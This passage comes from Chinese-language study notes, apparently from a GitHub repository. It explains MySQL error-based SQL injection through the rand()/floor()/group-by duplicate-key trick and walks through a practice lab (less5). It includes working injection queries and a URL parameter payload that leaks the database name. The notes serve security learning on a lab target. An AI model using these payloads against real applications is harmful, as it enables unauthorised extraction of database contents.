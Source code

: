 ```
![image-20220114200542636](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/image-20220114200542636.png)



```
select concat(0x3a,0x3a,(select database()),0x3a,0x3a,floor(rand()*2)) from information_schema.columns group by concat(0x3a,0x3a,(select database()),0x3a,0x3a,floor(rand()*2));
```

效果相同。因为：

mysql官方说：rand函数每次出现都会重新计算一次。



总结MySQL漏洞1：

```
select count(*),concat(0x3a,0x3a,(select database()),0x3a,0x3a,floor(rand()*2))a from table1;

select count(*),concat(0x3a,0x3a,(select database()),0x3a,0x3a,floor(rand()*2))a from information_schema.columns;

select count(*),concat(0x3a,0x3a,(select database()),0x3a,0x3a,floor(rand()*2))a from information_schema.columns group by a;

```

group by a是按a排序，a里只有0，1，并且随机！总有一天会出现2个0，2个1



### 实战：靶场less5

![image-20220114201109234](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/image-20220114201109234.png)

进入靶场，猜测闭合方式：

![image-20220114201146937](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/image-20220114201146937.png)

经过标准流程但是无法得到输出的报错位结果：

![image-20220114201218703](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/image-20220114201218703.png)


### 使用报错注入前提和原理

那么思考：

关于报错注入：如果输入错误就会报错，如果输入正确会查数据库，但不显示东西——使用报错注入



### **利用rand()的报错漏洞**：

暴露库名：

```
id=1' AND (select 1 from (select count(*),concat((select database()),floor(rand()*2))a from information_schema.columns group by a)b) --+
```
```